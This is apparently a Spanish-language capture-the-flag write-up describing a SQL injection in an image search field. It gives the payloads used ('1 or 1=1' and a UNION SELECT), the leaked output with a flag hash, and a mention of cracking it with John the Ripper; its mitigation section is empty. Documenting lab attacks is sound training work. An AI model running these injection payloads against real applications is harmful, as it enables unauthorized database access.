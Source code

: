 # SQL Injection - Images

Misma vulnerabilidad que [la inyección SQL en la vista de usuarios](./sql_injection_users.md). 

## Ataque

- **Localización: **?

En el apartado de búsqueda de imágenes tenemos un buscador de imágenes por id, en este caso la inyección está un poco más obfuscada ya que no imprime por pantalla el error de la query.

De todas formas, si enviamos como input `1 or 1=1`, recibimos todas las imágenes guardadas en la base de datos.

Inyectamos la siguiente query:
```
1 or 1=1 union select title, comment from list_images
```

Nos devuelve esto:
```
ID:  1 or 1=1 union select title, comment from list_images 
Title: If you read this just use this md5 decode lowercase then sha256 to win this flag ! : 1928e8083cf461a51303633093573c46
Url : Hack me ?
```

Crackeamos el hash MD5 con **johntheripper**.

```bash

```
## Mitigación

## Referencias